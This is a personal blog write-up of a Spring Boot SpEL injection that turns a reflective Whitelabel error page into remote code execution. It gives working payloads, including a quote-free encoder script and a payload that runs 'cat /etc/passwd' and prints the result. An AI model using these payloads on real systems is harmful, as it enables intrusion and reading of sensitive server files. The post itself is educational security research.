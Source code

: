 ```yaml
---
title:  "Spring Boot RCE"
date:   2017-02-02 23:11:23
categories: [security]
tags: [security]
---
```



This is my very frist blog post which was pending for a long time (almost a year). I would like to share a particular Remote Code Execution (RCE) in Java Springboot framework. I was highly inspired to look into this vulnerability after I read this article by **David Vieira-Kurz**, which can be found at his [blog](http://secalert.net/#cve-2016-4977). His article talks about an RCE in the Spring Security OAuth framework and how the Whitelabel error page can be used to trigger code execution.

So this ment that any Whitelabel Error Page which reflected user input was vulnerable to it. This was because user input was being treated in as Springs Expression Language (***SpEL***). So during my pentest I had came accross a particualr URL which triggered this Whitelabel Error page.

**URL:** `https://<domain>/BankDetailForm?id=abc${12*12}abc`

**Error Page:**
![alt text](../../images/initial_error.png "Initial Error")


My input of `abc${12*12}abc` was reflected as `abc144abc`. Then I wanted to perform a simple **id** and get the result on screen. I proceeded with the following payload:

**URI:** `/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec('id')}`

**Payload:** `${T(java.lang.Runtime).getRuntime().exec('id')}`

**Error Page:**
![alt text](../../images/error_2.png "Payload Error")

Hmm.....I see nothing. The reflection gave back the input as it is. I double checked David's blog to see if I was doing anything wrong. I was unsure as to what went wrong. Was the payload incorrect or did I make a mistake with the braces?? Nope. Everything was correct but I was still not getting my desired output. After fiddling around for a few hours I decided to fireup a demo Springs app and try to recreate the same scenario. I tried with a basic `{5*5}` and got `25` printed beautifully onscreen. Then I tried doing an **id** and bam!!!, it did not execute. I knew that I had to dig deeper because this was eating me up. 

It got me thinking that quotes might have been encoded and might have broken the **exec()** command. Next thing was to look at the stack trace at the server and see what was wrong.

![alt text](../../images/debug_mode.png "Debugging")

So after debugging I could see that single & double quotes were URL encoded. The **exec()** method clearly takes an argument as a string. Now I either need to find characters within the error code and take bits & pieces and pass it to exec using **substring()**, which is still pretty difficult or I need to find a way to pass my string without using double quotes or single qutoes. I wanted to go with the second approach. Java supports nested functions and if im able to find a method which can output `id` or `cat etc/passwd`, this would then be passed to **exec()** and then my payload would run successfully.

After going through some Java classes I stumbled upon the following:

``` ruby
java.lang.Character.toString(105) 
-> prints the characer 'i'
``` 

Now I need to concat the letter 'd' and I'm golden. Again concat() is a method and i'm going to nest the `character.toString` inside it as well.

``` ruby
java.lang.Character.toString(105).concat(T(java.lang.Character).toString(100))
-> prints the characters 'id'
``` 
Now crafting the final payload, I get the following:

~~~ ruby          
https://<domain>/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec(T(java.
lang.Character).toString(105).concat(T(java.lang.Character).toString(100)))}
~~~
![alt text](../../images/rce_blind.png "id executes")

The **getRuntime()** method returns the runtime object which we got on screen. Now we have some sort of a Blind RCE with which we can run any commands. I wanted to go a step further and get the output on screen (just for fun). At this point I wanted to do a `cat etc/passwd` and print the result onto the Whitelabel Error page. This ment for every character I would need to write its ASCII equivalent in the format `concat(T(java.lang.Character).toString(<ascii value>))`. Wrote a quick sloppy python script to acheive this:

**Python Script:**

``` ruby
#!/usr/bin/env python
from __future__ import print_function
import sys

message = raw_input('Enter message to encode:')

print('Decoded string (in ASCII):\n')
for ch in message:
   print('.concat(T(java.lang.Character).toString(%s))' % ord(ch), end=""), 
print('\n')

```


Now to get the output of `cat etc/passwd` in the response, we will use the ***IOUtils*** class and call the **toString()** method. We can pass an input stream to this method and get the contents of the stream as a response.

~~~ ruby  
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).get
Runtime().exec(T(java.lang.Character).toString(99).concat(T(ja
va.lang.Character).toString(97)).concat(T(java.lang.Character).toStri
ng(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.la
ng.Character).toString(47)).concat(T(java.lang.Character).toString(10
1)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.C
haracter).toString(99)).concat(T(java.lang.Character).toString(47)).c
oncat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).
toString(97)).concat(T(java.lang.Character).toString(115)).concat
(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toStrin
g(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
~~~

The payload became quite huge. To sum up, I used the Apache IOUtils library. I converted `cat etc/passwd` into ASCII characters using the character class, passed this value to the **exec()** method and got the input stream and passed it to the `toString()` method of IOUtils class. Awesome isnt it. I tried this on the remote box and got the following.

![alt text](../../images/rce_new.jpg "etc/passwd")

All this hassle just to get around the single and double quotes. However I feel there might have been easier ways to go about it. Tackling out the hurdles and troubleshooting and debugging and finally getting what you want is such a serene feeling. This bug was a learning curve for me and I learned a lot of things alongside exploiting this.

I hope you guys enjoyed this blog. Please feel free to let me know your thoughts or any doubts you have. You can also catch me up on [Twitter][twitter] or shoot me an email.


[twitter]:      https://twitter.com/0xdeadpool
